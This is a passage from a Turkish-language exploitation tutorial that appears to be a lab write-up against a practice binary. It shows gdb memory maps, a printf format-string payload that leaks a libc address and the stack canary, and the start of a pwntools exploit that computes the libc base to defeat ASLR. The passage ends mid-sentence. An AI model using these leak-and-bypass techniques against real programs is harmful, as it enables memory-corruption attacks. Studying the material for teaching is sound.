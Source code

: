 ```
      0x7ffff7e04000     0x7ffff7f59000   0x155000    0x26000  r-xp   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7f59000     0x7ffff7fac000    0x53000   0x17b000  r--p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7fac000     0x7ffff7fb0000     0x4000   0x1ce000  r--p   /usr/lib/x86_64-linux-gnu/libc.so.6
      0x7ffff7fb0000     0x7ffff7fb2000     0x2000   0x1d2000  rw-p   /usr/lib/x86_64-linux-gnu/libc.so.6
      ...
(gdb) c
...
Hello, what's your name?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
0xa,(nil),(nil),0x55555555601e,0x7ffff7fb0a80,(nil),(nil),0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x70252c70252c,0x705fa3a045226500? [yes/no]
...
```
Gördüğünüz bu örnekte gibi `libc`, `0x7ffff7fb2000` adresinde bitiyor ve de leaklediğimiz 5. adres bu adres aralığında (`0x7ffff7fb0a80`),
bu adresin `libc` üzerindeki asıl konumunu, `libc`nin başlangıç adresinden (`0x7ffff7dde000`) çıkartarak öğrenebiliriz
(ASLR gdb altında çalışmıyor, bunlar orjinal adresler):
```
root@o101:~# python3
Python 3.11.8 (main, Feb 12 2024, 14:50:05) [GCC 13.2.1 20230801] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x7ffff7fb0a80-0x7ffff7dde000)
'0x1d2a80'
```
Sanırım ne yapacağımızı anladınız, program çalışırken ASLR yüzünden kaydırılmış olan stack üzerindeki adresi leakleyeğiz, sonra
bu adresten `0x1d2a80` çıkartak ASLR tarafından kaydırılmış olan `libc` adresini bulacağız, bu ana başlangıç adresine *base adresi*
denir. Base adresi kullanmak için kullandığımız fark ise (`0x1d2a80`) bizim *offset*'imiz.

Bu arada bir sürü `%p` yerine daha akılıca bir şey kullanabiliriz:
```
%5$p,%13$p
```
`[n]$` syntaxi basitçe okuncak argümanın `printf`e verilen kaçıncı argüman olduğunu belirtiyor.

Bu şekilde leaklediğimiz adresi ve de çerezi pwntools ile yazdığımız exploitimizde çekebiliriz:
```python
from pwn import *

context.update(arch="amd64", os="linux")
elf = context.binary = ELF("./0x4.elf")
libc = elf.libc
p = process("./0x4.elf")

p.recvuntil(b"\n")
p.sendline(b"%5$p,%13$p,")
line   = p.recvline().split(b",")
leak   = line[0]
cookie = line[1]
info(f"Leaked libc address: {leak.decode()}")
info(f"Leaked cookie: {cookie.decode()}")

libc.address = int(leak, 16) - 0x1d2a80
info(f"Found libc base: {hex(libc.address)}")
```
Burada işimizi kolaylaştırmak adına binary'nin yüklendiği `libc` librarysini binary'nin
`ELF()` objesinden çekiyoruz, sonrasında çerezi ve leakediğimiz adresi parse ettikten sonra `libc`nin